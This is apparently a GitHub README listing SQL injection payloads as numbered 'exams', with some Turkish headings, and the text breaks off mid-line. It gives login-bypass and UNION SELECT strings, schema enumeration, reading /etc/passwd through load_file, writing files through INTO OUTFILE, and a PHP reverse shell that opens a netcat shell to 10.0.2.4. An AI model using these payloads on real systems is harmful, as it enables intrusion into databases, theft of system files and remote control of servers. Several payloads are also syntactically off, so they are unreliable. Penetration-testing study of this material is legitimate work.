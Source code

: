 # SQLBypass-Penetration

## SQL Injection and Active Directory Penetration Testing Examples

### Basic SQL Injection

#### Exam 1: Simple SQL Injection

#SELECT * FROM accounts WHERE username=david AND password='1234' AND 1=1#

### Exam 2: Login Bypass

#SELECT * FROM accounts WHERE username='david'# AND password='1234'

### Exam 3: OR Operatörü

#SELECT * FROM accounts WHERE username='david' AND password='1234' OR 1=1#

### Exam 4: SQL Injection Get Method

#http://example.com/login?username=david' OR '1'='1&password=1234

### UNION SELECT İşlemleri

#Exam 5: UNION SELECT Basic Usage

#username='david' UNION SELECT 1,2,3,4,5#

### Exam 6: Advanced Level SQL Injection

#1' AND 1=1#
#1' ORDER BY 1,2,3--+
#1' GROUP BY 1,2,3--+
#' UNION SELECT sum(columnname) from tablename--

### Get HEX

## Exam 7: HEX İle SQL Injection

#david' union select 1,table_name from information_schema.tables where table_schema = 0x64767761#

### Örnek 8: Read File

#1' union select 1,load_file('/etc/passwd')#

### Exam 9: Write File

#1' union select 1,'test',into outfile 'tmp/test.txt'#

### sql vulnerability Get Shell

# Exam 10: PHP Reverse Shell

#<?passthru("nc 10.0.2.4 4040 -e /bin/bash");?>

#1' union select 1,'<?passthru("nc 10.0.2.4 4040 -e /bin/bash");?>',into outfile 'tmp/mys
